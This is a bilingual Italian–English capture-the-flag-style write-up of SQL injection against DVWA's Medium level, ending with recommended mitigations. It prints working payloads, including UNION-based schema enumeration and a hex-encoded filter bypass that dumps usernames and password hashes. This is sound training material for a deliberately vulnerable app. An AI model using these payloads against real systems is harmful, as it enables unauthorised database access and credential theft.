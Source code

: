 
## SQL Injection – Livello Medium (Italiano)

## Descrizione

Nel livello "Medium" di DVWA, l'applicazione riceve un parametro `id` via `POST` e restituisce il nome e cognome associato a quell'ID.  
A differenza del livello Low, qui è presente una sanitizzazione parziale, ma insufficiente. È comunque possibile eseguire una SQL Injection con tecniche più raffinate.

## Obiettivo

Ottenere tutti gli username e password memorizzati nella tabella `users`, sfruttando la vulnerabilità SQLi.

## Ambiente di test

- DVWA livello: Medium  
- VirtualBox  
- Browser: Firefox  
- Burp Suite (Proxy e Repeater)

## Fasi dell'attacco

### 1. Individuazione della vulnerabilità

Intercettando la richiesta `POST` con Burp Suite, si individuano i parametri `id` e `submit`.  
Modificando `id` nel Repeater e inserendo il payload:

```sql
1 OR 1=1 #
```

→ Il server risponde mostrando i dati di tutti gli utenti.

Nel codice HTML sono visibili i **5 nomi e cognomi**, confermando l’avvenuto bypass.

---

### 2. Verifica del numero di colonne

Con il payload:

```sql
1 UNION SELECT NULL, NULL #
```

la risposta non mostra errore → la query accetta **2 colonne visibili**.

---

### 3. Estrazione dei nomi delle tabelle

Payload utilizzato:

```sql
1 UNION SELECT table_name, NULL FROM information_schema.tables #
```

Il server restituisce vari nomi di tabella, tra cui `users`.

---

### 4. Estrazione dei nomi delle colonne

Il payload testato inizialmente con:

```sql
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' #
```

non funziona per via del filtro sul carattere `'`.  
La soluzione è usare il nome della tabella in esadecimale:

```sql
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name=0x7573657273 #
```

Risultato: sono visibili le colonne `user` e `password`.

---

### 5. Esfiltrazione dei dati

Payload finale:

```sql
1 UNION SELECT user, password FROM users #
```

Il server restituisce correttamente tutti gli username e password hashate.

> ⚠️ I dati estratti non vengono riportati per motivi etici.

---

## Considerazioni finali

Il livello Medium introduce dei filtri superficiali, ma rimane vulnerabile.  
Aggirando la sanitizzazione tramite encoding esadecimale e conoscenza delle strutture del DBMS, l'attacco SQLi risulta comunque efficace.

---

## Mitigazioni consigliate

Per prevenire la vulnerabilità SQL Injection, è fondamentale adottare le seguenti misure:

- Utilizzare **query parametrizzate** (prepared statements)  
- Evitare concatenazioni dirette di input utente  
- Validare e sanificare tutti i dati ricevuti dall’esterno  
- Limitare i privilegi dell’utente DB  
- Monitorare le richieste sospette lato server

---
---

## SQL Injection – Medium Level (English)

## Description

In the Medium level of DVWA, the application receives a parameter `id` via `POST` and returns the first and last name of the corresponding user.  
Unlike the Low level, partial sanitization is applied—but it's still insufficient.

## Objective

Retrieve all usernames and passwords stored in the `users` table by exploiting SQL Injection.

## Test environment

- DVWA level: Medium  
- VirtualBox  
- Firefox browser  
- Burp Suite (Proxy and Repeater)

## Attack steps

### 1. Finding the vulnerability

The `POST` request is intercepted using Burp Suite.  
By modifying the `id` parameter with:

```sql
1 OR 1=1 #
```

→ The server returns all users' names.

Viewing the HTML reveals 5 full names, confirming successful injection.

---

### 2. Column count check

Payload used:

```sql
1 UNION SELECT NULL, NULL #
```

→ No error returned → the query accepts **2 visible columns**.

---

### 3. Extracting table names

Payload used:

```sql
1 UNION SELECT table_name, NULL FROM information_schema.tables #
```

→ The list of tables includes `users`.

---

### 4. Extracting column names

Initial payload using `'users'` fails due to filtering.  
Hexadecimal encoding is used instead:

```sql
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name=0x7573657273 #
```

→ The response shows `user` and `password` as valid columns.

---

### 5. Extracting user credentials

Final payload:

```sql
1 UNION SELECT user, password FROM users #
```

→ All usernames and password hashes are successfully displayed.

> ⚠️ Extracted data is intentionally omitted for ethical reasons.

---

## Final thoughts

The Medium level adds superficial filtering, but remains vulnerable.  
By bypassing basic sanitization using hexadecimal encoding and SQL structure knowledge, SQLi is still possible and effective.

---

## Recommended mitigation

To prevent SQL Injection vulnerabilities, apply the following best practices:

- Use **parameterized queries** (prepared statements)  
- Avoid direct concatenation of user input  
- Always validate and sanitize external data  
- Limit database user privileges  
- Monitor suspicious requests on the server side
